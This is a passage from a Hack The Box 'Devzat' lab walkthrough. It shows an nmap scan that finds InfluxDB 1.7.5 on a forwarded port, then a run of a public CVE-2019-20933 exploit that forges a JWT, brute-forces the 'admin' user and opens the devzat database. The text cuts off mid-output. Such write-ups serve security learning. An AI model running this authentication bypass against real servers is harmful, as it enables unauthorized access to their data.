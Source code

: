 ```
──(kali㉿kali)-[~/Documents/htb/devzat]
└─$ nmap -sC -sV 10.10.11.118 -p 6969 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-07 14:52 EST
Nmap scan report for devzat.htb (10.10.11.118)
Host is up (0.096s latency).

PORT     STATE SERVICE VERSION
6969/tcp open  http    InfluxDB http admin 1.7.5
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.28 seconds
```
Perfect our port forwarding is working and we have a webservice running at that new port. What is it and how can we breat it?
![influx](https://i.imgur.com/Sb4y3Hn.png)
```bash
┌──(kali㉿kali)-[~/Documents/htb/devzat]
└─$ searchsploit influx
Exploits: No Results
Shellcodes: No Results
Papers: No Results
```

So nothing at exploit-db, but github seems to have some answers. https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933

It seems like a unauthenticated user can gain access through a forged JWT cookie. Perfect, lets just grab that and fire it up
## Exploit
To be honest, it's just sql, and the exploit is verry self explanitory. So lets just run it and get the data
```sql
┌──(kali㉿kali)-[~/Documents/htb/devzat/InfluxDB-Exploit-CVE-2019-20933] 
└─$ python ./__main__.py
  _____        __ _            _____  ____    ______            _       _ _   
 |_   _|      / _| |          |  __ \|  _ \  |  ____|          | |     (_) | 
   | |  _ __ | |_| |_   ___  __ |  | | |_) | | |__  __  ___ __ | | ___  _| |_  
   | | | '_ \|  _| | | | \ \/ / |  | |  _ <  |  __| \ \/ / '_ \| |/ _ \| | __|
  _| |_| | | | | | | |_| |>  <| |__| | |_) | | |____ >  <| |_) | | (_) | | |_  
 |_____|_| |_|_| |_|\__,_/_/\_\_____/|____/  |______/_/\_\ .__/|_|\___/|_|\__| 
                                                         | |
                                                         |_|     
 - using CVE-2019-20933 
Host (default: localhost): 10.10.11.118 
Port (default: 8086): 6969
Username <OR> path to username file (default: users.txt):
Bruteforcing usernames ... 
[v] admin 
Host vulnerable !!!
https://docs.influxdata.com/influxdb/v1.7/introduction/getting-started/
Databases:
1) devzat         
2) _internal
.quit to exit
[admin@10.10.11.118] Database: 1
Starting InfluxDB shell - .back to go back
[admin@10.10.11.118/devzat] $ show measurements       
{ 
    "results": [ 
        {          
            "series": [   
                {            
```